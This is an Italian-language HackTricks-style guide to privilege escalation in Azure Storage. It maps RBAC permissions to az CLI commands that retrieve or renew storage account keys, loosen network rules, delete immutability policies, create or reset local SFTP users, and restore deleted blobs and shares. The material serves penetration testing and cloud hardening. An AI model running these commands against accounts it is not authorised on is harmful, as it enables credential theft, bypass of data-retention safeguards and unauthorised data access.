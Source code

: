 # Az - Storage Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Storage Privesc

Per ulteriori informazioni sullo storage, controlla:

{{#ref}}
../az-services/az-storage.md
{{#endref}}

### Microsoft.Storage/storageAccounts/listkeys/action

Un principale con questo permesso sarà in grado di elencare (e i valori segreti) delle **chiavi di accesso** degli account di storage. Consentendo al principale di elevare i propri privilegi sugli account di storage.
```bash
az storage account keys list --account-name <acc-name>
```
### Microsoft.Storage/storageAccounts/regenerateKey/action

Un principale con questo permesso sarà in grado di rinnovare e ottenere il nuovo valore segreto delle **chiavi di accesso** degli account di archiviazione. Consentendo al principale di elevare i propri privilegi sugli account di archiviazione.

Inoltre, nella risposta, l'utente riceverà il valore della chiave rinnovata e anche di quella non rinnovata:
```bash
az storage account keys renew --account-name <acc-name> --key key2
```
### Microsoft.Storage/storageAccounts/write

Un principale con questo permesso sarà in grado di creare o aggiornare un account di archiviazione esistente aggiornando qualsiasi impostazione come regole di rete o politiche.
```bash
# e.g. set default action to allow so network restrictions are avoided
az storage account update --name <acc-name> --default-action Allow

# e.g. allow an IP address
az storage account update --name <acc-name> --add networkRuleSet.ipRules value=<ip-address>
```
## Blobs Specific privesc

### Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/write | Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/delete

Il primo permesso consente di **modificare le politiche di immutabilità** nei contenitori e il secondo di eliminarle.

> [!NOTE]
> Nota che se una politica di immutabilità è in stato di blocco, non puoi fare nessuna delle due cose.
```bash
az storage container immutability-policy delete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP>

az storage container immutability-policy update \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP> \
--period <NEW_RETENTION_PERIOD_IN_DAYS>
```
## File shares specific privesc

### Microsoft.Storage/storageAccounts/fileServices/takeOwnership/action

Questo dovrebbe consentire a un utente con questo permesso di poter prendere possesso dei file all'interno del filesystem condiviso.

### Microsoft.Storage/storageAccounts/fileServices/fileshares/files/modifypermissions/action

Questo dovrebbe consentire a un utente con questo permesso di poter modificare i permessi dei file all'interno del filesystem condiviso.

### Microsoft.Storage/storageAccounts/fileServices/fileshares/files/actassuperuser/action

Questo dovrebbe consentire a un utente con questo permesso di poter eseguire azioni all'interno di un filesystem come superutente.

### Microsoft.Storage/storageAccounts/localusers/write (Microsoft.Storage/storageAccounts/localusers/read)

Con questo permesso, un attaccante può creare e aggiornare (se ha il permesso `Microsoft.Storage/storageAccounts/localusers/read`) un nuovo utente locale per un account Azure Storage (configurato con namespace gerarchico), inclusa la specifica dei permessi e della directory home dell'utente. Questo permesso è significativo perché consente all'attaccante di concedere a se stesso l'accesso a un account di archiviazione con permessi specifici come lettura (r), scrittura (w), eliminazione (d) e elenco (l) e altro ancora. Inoltre, i metodi di autenticazione che utilizza possono essere password generate da Azure e coppie di chiavi SSH. Non c'è alcun controllo se un utente esiste già, quindi è possibile sovrascrivere altri utenti già presenti. L'attaccante potrebbe elevare i propri privilegi e ottenere accesso SSH all'account di archiviazione, esponendo o compromettendo potenzialmente dati sensibili.
```bash
az storage account local-user create \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME> \
--permission-scope permissions=rwdl service=blob resource-name=<CONTAINER_NAME> \
--home-directory <HOME_DIRECTORY> \
--has-ssh-key false/true # Depends on the auth method to use
```
### Microsoft.Storage/storageAccounts/localusers/regeneratePassword/action

Con questo permesso, un attaccante può rigenerare la password per un utente locale in un account Azure Storage. Questo concede all'attaccante la possibilità di ottenere nuove credenziali di autenticazione (come una password SSH o SFTP) per l'utente. Sfruttando queste credenziali, l'attaccante potrebbe ottenere accesso non autorizzato all'account di archiviazione, eseguire trasferimenti di file o manipolare i dati all'interno dei contenitori di archiviazione. Ciò potrebbe comportare perdite di dati, corruzione o modifica malevola del contenuto dell'account di archiviazione.
```bash
az storage account local-user regenerate-password \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME>
```
Per accedere ad Azure Blob Storage tramite SFTP (is_hns_enabled dovrebbe essere true) utilizzando un utente locale tramite SFTP puoi (puoi anche utilizzare una chiave ssh per connetterti):
```bash
sftp <storage-account-name>.<local-user-name>@<storage-account-name>.blob.core.windows.net
#regenerated-password
```
### Microsoft.Storage/storageAccounts/restoreBlobRanges/action, Microsoft.Storage/storageAccounts/blobServices/containers/read, Microsoft.Storage/storageAccounts/read && Microsoft.Storage/storageAccounts/listKeys/action

Con questi permessi, un attaccante può ripristinare un contenitore eliminato specificando il suo ID di versione eliminata o annullare l'eliminazione di specifici blob all'interno di un contenitore, se erano stati precedentemente eliminati in modo soft. Questa escalation di privilegi potrebbe consentire a un attaccante di recuperare dati sensibili che dovevano essere eliminati permanentemente, portando potenzialmente a accessi non autorizzati.
```bash
#Restore the soft deleted container
az storage container restore \
--account-name <STORAGE_ACCOUNT_NAME> \
--name <CONTAINER_NAME> \
--deleted-version <VERSION>

#Restore the soft deleted blob
az storage blob undelete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--name "fileName.txt"
```
### Microsoft.Storage/storageAccounts/fileServices/shares/restore/action && Microsoft.Storage/storageAccounts/read

Con queste autorizzazioni, un attaccante può ripristinare una condivisione file di Azure eliminata specificando il suo ID versione eliminata. Questa escalation di privilegi potrebbe consentire a un attaccante di recuperare dati sensibili che dovevano essere eliminati permanentemente, portando potenzialmente a un accesso non autorizzato.
```bash
az storage share-rm restore \
--storage-account <STORAGE_ACCOUNT_NAME> \
--name <FILE_SHARE_NAME> \
--deleted-version <VERSION>
```
## Altre autorizzazioni interessanti (TODO)

- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/manageOwnership/action: Cambia la proprietà del blob
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/modifyPermissions/action: Modifica le autorizzazioni del blob
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/runAsSuperUser/action: Restituisce il risultato del comando blob
- Microsoft.Storage/storageAccounts/blobServices/containers/blobs/immutableStorage/runAsSuperUser/action

## Riferimenti

- [https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage](https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage)
- [https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support](https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support)

{{#include ../../../banners/hacktricks-training.md}}
